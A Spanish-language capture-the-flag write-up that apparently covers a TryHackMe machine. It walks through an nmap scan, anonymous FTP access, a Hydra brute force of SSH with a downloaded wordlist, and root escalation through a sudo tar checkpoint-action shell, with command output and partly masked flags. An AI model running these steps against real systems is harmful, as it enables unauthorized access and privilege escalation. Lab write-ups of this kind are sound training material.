[VOLVER PAGINA PRINCIPAL](./)

# COWBOYHACKER - WriteUp
## Creamos la carpeta donde estara nuestra maquina para realizar la prueba

Creamos un directorio llamado **cowboyhacker** y nos meteremos a el.

```bash
mkdir cowboyhacker
cd $_
```
Una Vez dentro de la carpeta podemos realizar la actividad.

## Escaneo por NMAP

Ahora vamos ver los puertos que tiene la maquina para ello vamos a usar el siguiente comando de **nmap** para poder hacer el escaneo de puerto necesario.

```bash
nmap -sC -sV -p- -oN -min-rate=5000 Puertos.txt <IP_OBJETIVO>
```
- -min-rate=5000 : La cantidad de paquetes que se envia por segundo.
- -sC : Script predeterminados.
- -sV : Detección de versión.
- -oN : La salida donde se almacenara el resultado del comando.
- -p- : Todos los puertos para escanear.

**SALIDA DEL COMANDO**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.40.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**CAPTURA DEL RESULTADO EN LA TERMINAL**

![NMAP](/assets/img/HACKER_ETICO/COWBOYHACKER/NMAP-SCAN.png)

Con este resultado que vemos que existe un **FTP** en el cual se puede ver existe una entrada con **anonymous** y un servicio **SSH** en el cual se podria entra si existiera un usuario.

Tambien vemos el servicio **HTTP** pero no nos sirve de nada.

## ENTRAR EN FTP

Ahora vamos a entrar dentro del servicio **FTP**, con lo cual vamos a poner el siguiente comando para poder entrar en el.

Con lo que vamos entrar con el usuario **anonymous** que tiene **FTP** por defecto.

```bash
ftp <IP_OBJETIVO>
```

**SALIDA DEL COMANDO**
```bash
Connected to 10.10.18.227.
220 (vsFTPd 3.0.3)
Name (10.10.18.227:sunamy): anonymous
230 Login successful.
```

Ahora dentro del **FTP** vamos a poner el comando **ls** con lo se vera si existe unos fichero dentro de el.

**SALIDA DEL COMANDO**
```bash
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Ahora vamos a descargar los ficheros del **FTP** con lo cual usamos el comando **GET** para poder descargarlo.

**SALIDA DEL COMANDO**
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************|   418      672.49 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (7.04 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************|    68      484.71 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.20 KiB/s)
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Quién escribió la lista de tareas? 

```bash
Se observa en el fichero task.txt
```
- ¿Qué servicio puede hacer con fuerza bruta con el archivo de texto encontrado? 

```bash
Tras ver el usuario se puede ver que puerto se puede atacar.
```

## ENTRAR DENTRO DEL USUARIO

Tras observar el puerto en el cual podemos atacar vamos a usar **HYDRA** con los siguiente parametros.

```bash
hydra -l <USUARIO> -P <LIBRERIA-CONTRASEÑA> <IP-OBJETIVO> <PUERTO>
```

Como se ha observado anteriormente nos hemos descargado un archivo que se llama **locks.txt** que en realidad es un diccionario de las contraseña que se va usar para saber que contraseña tiene el usuario del puerto atacado.

**SALIDA DEL COMANDO**
```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 13:12:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ###://10.10.18.227:22/
[22][###] host: 10.10.18.227   login: ##n   password: ###ed#####gon######at##
1 of 1 target successfully completed, 1 valid password found
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Cuál es la contraseña de los usuarios? 

```bash
Contraseña dada por Hydra.
```

## BANDERA DEL USUARIO

Una vez dentro del usuario vamos a poner el comando **ls** con lo cual vemos el primer fichero que contiene la primera bandera.

```bash
##n@bountyhacker:~/Desktop$ ls
user.txt
##n@bountyhacker:~/Desktop$ cat user.txt
THM{#####3_S####d1####3}
```
### PREGUNTAS SOBRE LO ENCONTRADO

- user.txt

```bash
THM{#####3_S####d1####3}
```

## BANDERA DEL ROOT

Ahora vamos a escalar de privilegios con lo cual tenemos que ver que aplicaciones tiene el usuario con lo cual se ejecuta como root, para ello ponemos el comando **sudo -l** con lo cual nos dice que tiene el usuario con privilegios de root.

```bash
Matching Defaults entries for lin on bountyhacker:                          
    env_reset, mail_badpass,                                                
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                            
                                                                            
User lin may run the following commands on bountyhacker:                    
    (root) /bin/tar
```

Como vemos tiene como privilegios de root la aplicación de **tar** con lo cual vamos a la pagina [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/), con lo cual nos va decir como podemos entrar como **root** con el programa **tar**.

**SALIDA DEL COMANDO**
```bash
##n@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd / 
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
```

Ahora vamos a la carpeta de **root** en el cual tiene la ultima bandera, con lo cual vamos usar el comando **ls**, para leer el fichero que tiene en el.

```bash
# cd root
# ls 
root.txt
# cat root.txt
THM{80########3r}
```

### PREGUNTAS SOBRE LO ENCONTRADO

- root.txt

```bash
THM{80########3r}
```

Y Con todo los pasos realizado hemos ya hemos terminado la maquina.

![TERMINADO](/assets/img/HACKER_ETICO/COWBOYHACKER/TERMINADO.png)